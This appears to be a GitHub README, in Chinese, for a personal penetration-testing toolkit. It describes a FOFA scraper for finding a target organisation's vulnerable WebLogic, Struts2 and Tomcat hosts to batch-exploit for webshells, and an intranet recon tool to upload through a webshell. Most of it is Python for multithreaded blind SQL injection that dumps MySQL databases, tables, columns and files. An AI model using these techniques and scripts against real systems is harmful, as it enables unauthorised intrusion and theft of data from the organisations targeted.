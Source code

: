 
# SomeTools

**自己使用的一些脚本和工具**

|             脚本              |       功能        |
| :---------------------------: | :---------------: |
|    blind_inject_getdata.py    |  二分法盲注利用   |
| mul_blind_injdect_dumpdata.py | 多线程and盲注利用 |
|fofa_search.py | 通过fafa批量爬取检索结果 |
| WebFinder.py | 获取存活的WEB URL以及对应的标题|

---

**fofa_search**

  该脚本通过多线程爬取搜索页面的链接信息，输入参数为网页登录后的cookie信息，可通过浏览器F12 查看网络连接复制获取，支持主机和web查询，在对目标组织进行渗透的时候可以使用该脚本检索目标主机存在weblogic\struts2\tomcat\致远OA等组件的主机，然后结合poc-t\pocsuite\pocstart等漏洞检测框架批量检测，运气好的话很容易就能拿到webshell.

example:
  以下对目标组织检索tomcat主机检索然后利用pocstart批量检测并发现文件下载漏洞。

  ```
  fofa dork:org="XXX Limited" && region="CN" && protocol=="ajp"
  ```
  ![image-20200524100713379](images/fofa_v2.png)
  ![](images/test_1.png)

*ReadMe*：https://forum.90sec.com/t/topic/1051

---

**WebFinder**

  该脚本主要是为了检索目标组织存活的web host以及对应的web标题，通过标题信息粗略定位下一步渗透的目标系统，通常用于内网渗透过程的信息收集，对于只能通过webshell 操作的目标，可以使用pyinstaller打包上传到目标机器进行内网信息收集，然后利用regeorg代理渗透内网。附件也提供了一个打包好的exe
 ![](images/image-20200524001731394.png)

---

**BlindInject_dump**

前段时间先知发了一篇关于盲注效率分析的文章(https://xz.aliyun.com/t/7575)，里面提到了三种盲注利用方法：**遍历法|二分法|与运算**，这里分享一下mysql盲注场景下利用二分法和与运算注入数据通用脚本。

* **实现功能**

| API                  | 功能                           |
| :------------------- | :----------------------------- |
| get_current_database | 获取当前数据库                 |
| get_current_user     | 获取当前用户                   |
| get_dbs              | 获取所有数据库                 |
| get_tables           | 获取指定数据库表名             |
| get_columns          | 获取指定数据表列名             |
| dump                 | 获取指定列数据                 |
| dump_all             | 自动化dump指定数据库的所有数据 |
| read_file            | 读取文件                       |

 ![](images/image-20200529201837138.png)

# 二分法：

这种方法比较简单，就是重复搜索判断某一个值是否介于一个区间，直至区间消失也就是区间左边界等于右边界的时候的边界值就是我们要寻找的值。

```python
def double_search(table_name, col_name, in_limit='0', index="", query =query,left_number=0, right_number=0):
    while True:
        payload = get_payload(table_name, col_name, in_limit, index, value=str(right_number), query=query)
        text = send_data(payload)
        if find_success(success_flag, text):
            left_number = right_number
            right_number = 2*right_number
        else:
            break

    while left_number < right_number:
        mid = int((left_number + right_number) / 2)
        payload = get_payload(table_name,col_name,in_limit,index,value=str(mid),query =query)
        text =send_data(payload)
        if find_success(success_flag, text):
            left_number = mid
        else:
            right_number = mid
        if left_number == right_number - 1:
            payload = get_payload(table_name, col_name, in_limit, index, value=str(mid), query=query)
            text = send_data(payload)
            if find_success(success_flag, text):
                mid += 1
                print('found')
                break
            else:
                break
    return mid
```

# 与运算：

一个字符是由8个二进制位构成，可以使用每个二进制位分别和1进行与操作，在两个操作数都是1的情况下结果才为1，所以利用这个特性可以分别获取每个二进制位进而得到该字符的ascii，当然实际编写代码的时候，我们肯定不是获取每一个二进制位来判定返回值的真假，对于一个10进制数 v,我们知道

```v= a*2^7+b*2^6+c*2^5+d*2^4+e*2^3+f*2^2+g*2^1+h*2^0  ```，其中[a-h]是八个二进制位，只需要进行 v&[2^i],i 属于 [0-7]，然后分别把得到的结果相加就可以得到 v，为了能够方便的多线程并发，可以假设[a-h]都是1,当假设成立的时候，条件为真，可以不做处理，否则将对应的二进制值置为0，最后按照前文计算公式得到v的值，进而获取全部数据。

![image-20200529205101029](images/image-20200529205101029.png)

```python
def get_values_by_and_blind(table_name, col_name, in_limit='0', query =query):
    cu_query = query
    len = int(get_length(table_name, col_name, in_limit,cu_query))
    text = ""
    if len > 0:
        payloads = []
        for  i in range(1,len+1):
            for j in range(8):
                value = 2 ** j
                payload = get_payload(table_name, col_name, in_limit, str(i), value=str(value), query=query)
                data = {}
                data['index'] = i
                data['value'] = value
                data['payload'] = payload
                payloads.append(data)
        dump = DATA_AND(payloads)  # params(threadnums,url_lists)
        dump._start()
        group_list = []
        indexs  = list(set([i.get('index') for i in payloads]))
        for index in indexs:
            temp = []
            for payload in payloads:
                if payload.get('index') == index:
                    temp.append(payload['value'])
            group_list.append(temp)
        _ = [sum(v) for v in group_list]
        text = ''.join([chr(v) for v in _])
        print("In program: " + text)
    return text


class DATA_AND(object):
    def __init__(self, payloads):
        self.threads = conf['thread_num']
        self.payloads = payloads
        self.mutex = Lock()

    def run(self, payload):
        try:
            data = payload['payload']
            text = send_data(data)
            if not find_success(success_flag, text):
                value = 0
                self.mutex.acquire()
                payload['value'] = value
                self.mutex.release()
        except Exception as e:
            print e.message

    def _start(self):
        try:

            pool = ThreadPool(processes=self.threads)
            pool.map_async(self.run, self.payloads).get(0xffff)
            pool.close()
            pool.join()

        except Exception as e:
            print e
        except KeyboardInterrupt:
            print '[!] user quit!'
            sys.exit(1)
```
![image-20200529234700625](images/image-20200529234700625.png)

![image-20200529234735321](images/image-20200529234735321.png)

*ReadMe* : https://forum.90sec.com/t/topic/1076

---
